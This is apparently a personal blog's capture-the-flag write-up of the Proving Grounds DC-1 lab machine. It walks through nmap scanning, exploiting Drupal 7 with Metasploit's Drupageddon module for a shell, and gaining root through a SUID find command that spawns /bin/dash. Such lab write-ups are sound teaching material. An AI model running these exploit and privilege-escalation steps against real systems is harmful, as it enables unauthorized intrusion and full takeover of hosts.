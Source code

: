 ```yaml
---
title: "Proving grounds Play: DC-1"
layout: post
date: 2023-09-03 01:00
categories: writeup
---
```


Proving grounds Play - DC-1 CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

Drupal Site running version 7.0, version extracted from the page source.

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
  <title>User account | Drupal Site</title>
```

Drupan 7 is vulnerable to Druppageddon vulnerability.

## Initial Foothold using Metasploit

```sh
exploit/multi/http/drupal_drupageddon
set rhosts
set lhost
exploit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/msf.png)

**User shell obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-1/shell.png)

## Enumerate SUIDs

```sh
find / -perm -u=s -type f 2>/dev/null
```

**SUIDs**

```text
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

Binary `find` is in SUIDs. Search for exploit using GTFOBins.

### GTFO Bins exploit

```sh
find . -exec “/bin/dash” \; -quit
```

## Privilege Escalation

Create a file in the `tmp` directory for the exploit to work successfully.

Run the below expoit code to obtain root shell.

```sh
find file -exec "/bin/dash" \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/root.png)

**Root shell obtained.**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).